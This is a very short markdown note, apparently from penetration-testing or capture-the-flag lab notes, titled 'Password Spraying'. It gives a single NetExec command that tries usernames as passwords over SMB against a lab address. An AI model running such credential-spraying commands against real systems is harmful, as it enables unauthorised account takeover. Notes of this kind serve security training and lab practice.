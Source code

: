 # Password Spraying 



```bash
nxc smb 10.10.10.172 -u users.txt -p users.txt --continue-on-success
```